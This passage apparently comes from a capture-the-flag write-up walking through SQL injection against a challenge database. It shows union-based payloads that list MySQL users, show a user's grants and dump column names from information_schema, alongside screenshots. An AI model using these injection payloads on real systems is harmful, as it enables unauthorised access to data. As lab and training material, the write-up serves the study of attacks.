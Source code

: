 Get user with something simple like a denied statement - the username is fitting `targeter`. <br/>
For example:
`union all SELECT user FROM mysql.user;`

![User](../img/objectives/o22/user.jpg)

Then, you can get user's permissions:</br>
`union all select @@version; show grants for targeter;`<br/>
<i>Note: `@@version` statement is only added to confirm successful execution.</i>

![Grants](../img/objectives/o22/grants.jpg)

What's interesting here is that user is allowed to `INSERT` to the `satellite_query` - this is definitely a worthy finding. 😉 
Ok now let's dump all column names using this query:<br/>
`union all select column_name from information_schema.columns where table_name='messaging';`

![Columns](../img/objectives/o22/columns.jpg)
